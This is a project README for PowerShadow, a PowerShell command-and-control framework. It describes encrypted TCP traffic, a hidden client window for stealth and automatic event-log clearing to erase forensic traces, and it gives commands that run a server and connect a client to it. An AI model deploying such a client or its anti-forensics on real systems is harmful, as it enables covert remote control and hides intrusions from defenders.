 # PowerShadow

PowerShadow is an advanced, encrypted TCP Command & Control (C2) framework written in PowerShell. It is designed for authorized security testing and educational purposes. PowerShadow features secure key derivation using PBKDF2, a hidden client window, and automated event log clearance on disconnect. The default TCP port is now **9090**.

> **WARNING:**  
> This tool is intended for **authorized and ethical** security testing only. Misuse of this tool may be illegal and unethical. Always obtain explicit permission before testing any system.

---

## Features

- **Encrypted Communication:**  
  Uses AES‑256 encryption in CBC mode with PKCS7 padding to secure both commands and output.

- **Secure Key Derivation:**  
  Derives the encryption key and IV from a user‑supplied passphrase (entered securely) and a shared salt using PBKDF2—avoiding hard‑coded keys.

- **Length‑Prefixed TCP Protocol:**  
  Implements a simple length‑prefixed protocol to reliably transmit encrypted messages over TCP.

- **Hidden Client Window:**  
  On Windows, the client’s PowerShell window is hidden for improved stealth.

- **Event Log Clearance:**  
  When the connection ends, the client automatically clears selected Windows and PowerShell event logs to reduce forensic traces.

- **Customizable Default Port:**  
  The default TCP port is **9090**. This can be modified via command‑line parameters.

---

## Installation

1. **Clone the Repository:**

   ```bash
   git clone https://github.com/sudoplunder/powershadow.git
   cd powershadow

## Execution
- **Server:**
```powershell
sudo pwsh ./powershadow.ps1 -Mode Server -Port 9090
```
- **Client:**
```powershell
.\powershadow.ps1 -Mode Client -ServerIP 192.168.137.134 -Port 9090
```
